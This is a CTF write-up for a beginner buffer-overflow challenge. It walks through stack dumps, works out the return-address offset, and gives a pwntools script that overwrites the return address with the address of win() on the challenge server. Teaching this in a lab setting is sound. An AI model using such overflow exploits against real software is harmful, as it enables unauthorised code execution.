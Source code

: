 # RIP my bof  (Easy)
challenge link: https://ctflearn.com/challenge/1011


## Writeup
We got a buffer overflow, and the point of the challenge is to change the return address of `vul()` to `win()`. The challenge is very begginer friendly
, it prints the state of the stack for us which makes it much easier.
```
  return address MODIFIED
0xff864350 | 00 00 00 00 00 00 00 00 |
0xff864358 | 00 00 00 00 00 00 00 00 |
0xff864360 | 00 00 00 00 00 00 00 00 |
0xff864368 | 00 00 00 00 00 00 00 00 |
0xff864370 | ff ff ff ff ff ff ff ff |
0xff864378 | ff ff ff ff ff ff ff ff |
0xff864380 | c0 65 ee f7 00 a0 04 08 |
0xff864388 | 98 43 86 ff 8b 86 04 08 |
Return address: 0x0804868b
```
the last 4 byes are the return address in little endian. By counting lines and multpilying by columns we get the amout of bytes in here. 8 * 8 = 64,
let's check it by typing 64 bytes.
```
Input some text: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED                                                                                                                                   
  return address MODIFIED                                                                                                                                              
0xffedd2f0 | 61 61 61 61 61 61 61 61 |
0xffedd2f8 | 61 61 61 61 61 61 61 61 |
0xffedd300 | 61 61 61 61 61 61 61 61 |
0xffedd308 | 61 61 61 61 61 61 61 61 |
0xffedd310 | 61 61 61 61 61 61 61 61 |
0xffedd318 | 61 61 61 61 61 61 61 61 |
0xffedd320 | 61 61 61 61 61 61 61 61 |
0xffedd328 | 61 61 61 61 61 61 61 61 |
Return address: 0x61616161
```
Alright. Now we can change the return address. We got the binary provided so let's run gdb and see what is the address for `win()`, and here it is.

`0x8048586 <win>                         push   ebp`

Now it's just about writing a script to run it, I will use pwntools.
```
from pwn import *

add = 0x8048586
io = remote('thekidofarcrania.com', 4902)
io.sendline(b'a'*60 + p32(add))
print(io.recv().decode())
io.interactive()
```
